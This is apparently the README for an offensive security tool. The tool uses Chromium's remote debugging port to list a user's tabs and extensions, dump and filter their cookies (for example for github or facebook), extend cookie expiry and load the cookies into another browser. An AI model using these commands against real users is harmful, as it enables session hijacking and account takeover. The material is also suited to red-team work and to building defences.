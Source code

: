 # WhiteChocolateMacademiaNut

![WhiteChocolateMacademiaNut](./example.png)

## Description
Interacts with [Chromium-based browsers' debug port](https://blog.chromium.org/2011/05/remote-debugging-with-chrome-developer.html) to view open tabs, installed extensions, and cookies. Tested against Google Chrome and Microsoft Edge.

## Blogpost
- https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e

## Usage
- Dump the user's open tabs and installed extensions
    - ```./WhiteChocolateMacademiaNut -p 4200 -d pages```
- Dump the user's cookies in human-readable format
    - ```./WhiteChocolateMacademiaNut --port 1337 --dump cookies --format human```
- Dump the user's cookies in raw JSON as returned by Chromium
    - ```./WhiteChocolateMacademiaNut --port 1234 --dump cookies --format raw```
- Dump the user's cookies in JSON with the name, value, domain, path, and modified expirationDate attribute to 10 years in the future (compatible with [Cookiebro extension](https://nodetics.com/cookiebro/))
    - ```./WhiteChocolateMacademiaNut -p 666 -d cookies -f modified```
- Dump the user's cookies in JSON if the cookie name or domain field contains `github` and modifies the expirationDate attribute
    - ```./WhiteChocolateMacademiaNut -p 4321 -d cookies -f modified -g github```
- Dump the user's cookies in human-readable format if the page title or url contains `facebook`
    -  ```./WhiteChocolateMacademiaNut --port 31415 --dump pages --grep facebook```

Load and clear functions are intended to be used locally. Do not clear target's cookies. In order for this to work, you will need to start and Chrome with the debug port open. 

- Load the user's cookies locally from file
    - ```./WhiteChocolateMacademiaNut --port 9222 --load cookies.json```
- Clear all cookies
    - ```./WhiteChocolateMacademiaNut --port 9222 --clear```


## References
- https://mango.pdf.zone/stealing-chrome-cookies-without-a-password
- https://github.com/defaultnamehere/cookie_crimes
